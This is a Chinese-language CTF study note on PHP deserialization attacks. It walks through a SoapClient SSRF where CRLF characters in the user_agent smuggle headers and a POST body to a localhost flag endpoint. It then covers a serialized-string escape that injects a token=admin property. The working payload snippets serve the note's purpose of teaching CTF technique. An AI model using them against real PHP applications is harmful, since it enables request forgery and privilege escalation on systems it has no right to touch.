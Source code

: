 - 监听到的信息如下：

![fde4feaec606bbc57e1f81c5673c513.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625239200-ca560448-2dc1-483b-a9b4-cecae61971ae.png#averageHue=%23032759&clientId=u451b27a7-18ab-4&from=paste&height=361&id=u53597c33&originHeight=795&originWidth=1918&originalType=binary&ratio=1&rotation=0&showTitle=false&size=106866&status=done&style=none&taskId=ucf25dd6e-c5ed-401f-bd99-5f30fa4ed7e&title=&width=871.818162922032)

- 因为Content-length是13，所以到标记2处就已经结束了，后面的包服务器会忽略

#### 例题

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625318144-fd0a3466-1cba-4280-947a-5b35b533e776.png#averageHue=%23fefefe&clientId=u451b27a7-18ab-4&from=paste&height=296&id=u26a297d0&originHeight=651&originWidth=1280&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68046&status=done&style=none&taskId=u1bd73478-6fd2-4b59-9b60-5d1ac637b5f&title=&width=581.8181692076126)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625309055-40110109-38fe-4ce2-8bf6-728b0d60a0c0.png#averageHue=%23fbfbfb&clientId=u451b27a7-18ab-4&from=paste&height=268&id=u4121dc81&originHeight=590&originWidth=2710&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68013&status=done&style=none&taskId=u09ed2cc1-d9b0-44e8-82a1-e90da1dc4fb&title=&width=1231.8181551192424)

- 由于这里不存在getFlag()方法，且需要访问flag.php，直接访问flag.php的结果如下：

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625369217-676b08cb-04dd-4237-97f1-f097d44602a6.png#averageHue=%23fdfbfa&clientId=u451b27a7-18ab-4&from=paste&height=111&id=u8a1d6dcb&originHeight=245&originWidth=1566&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56726&status=done&style=none&taskId=u1ad7a419-db0e-4f3e-8dfb-b0d8d408594&title=&width=711.8181663899386)

- 这就需要用ssrf内网访问

```php
<?php
$ua="ctfshow\r\nx-forwarded-for:127.0.0.1,1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$client=new SoapClient(null,array('uri'=>"127.0.0.1",'location'=>"http://127.0.0.1",'user_agent'=>$ua));
// $client->getFlag();  //调用不存在的方法，会自动调用__call()函数来发送请求
echo urlencode(serialize($client));
?>
```

- 在反序列化后，会访问127.0.0.1/flag.php，此时因为vip->getFlag()不存在，所以会用__call()函数来发送请求
- 因此在我构造好的$client中就已经满足了flag.php的要求，会将flag写入flag.txt中
- 直接访问flag.txt就可以获得flag

### 字符逃逸

:::info
下面代码会把四个字符的fuck替换成5个字符的loveU，这就有问题<br />对于反序列化：只要后面正常闭合，**即使分号后有其他代码，也可以用var_dump打印出反序列化的结果**。<br />`O:7:"message":1:{s:4:"from";}aaaaa`
:::
![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669795927714-6c3f96dd-92cd-4347-99cf-ed0d9bb33a18.png#averageHue=%23fefefd&clientId=u4bac8a14-c256-4&from=paste&height=317&id=u4809f99b&originHeight=698&originWidth=932&originalType=binary&ratio=1&rotation=0&showTitle=false&size=67602&status=done&style=none&taskId=u64dea4ee-fdf4-4106-a892-0298e456f11&title=&width=423.6363544542929)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669795864874-470d8ef2-4c03-4627-8103-b73438c82d68.png#averageHue=%23fefefd&clientId=u4bac8a14-c256-4&from=paste&height=250&id=u49a8389b&originHeight=549&originWidth=816&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51925&status=done&style=none&taskId=ubf12b3e8-3921-4a2a-8dae-ec1932b1a16&title=&width=370.909082869853)

#### 分析

- 首先`$msg = new message("fuck","b","c");`，得到下面结果

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669796190523-79ed9561-5047-4624-b409-988a6154694e.png#averageHue=%231e1e1e&clientId=u4bac8a14-c256-4&from=paste&height=34&id=u7ac562d8&originHeight=75&originWidth=1846&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16237&status=done&style=none&taskId=u2735b432-3d1f-4d25-b1bf-e84b58b840f&title=&width=839.0908909041038)

- 因为要构造把user改为admin，先改一下

O:7:"message":4:{s:4:"from";s:4:"fuck";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}

- 构造期望的payload，`$msg = new message('fuck";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}',"b","c");`
- 输出替换后序列化的结构，可以看到，此时s=66

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669796490985-fe11716b-f85d-4841-8198-718e0ee7017c.png#averageHue=%232a2d2e&clientId=u4bac8a14-c256-4&from=paste&height=53&id=uec8ec3a5&originHeight=117&originWidth=2266&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29485&status=done&style=none&taskId=u30343cfa-98bd-49a6-a0bf-821de183372&title=&width=1029.9999776753516)
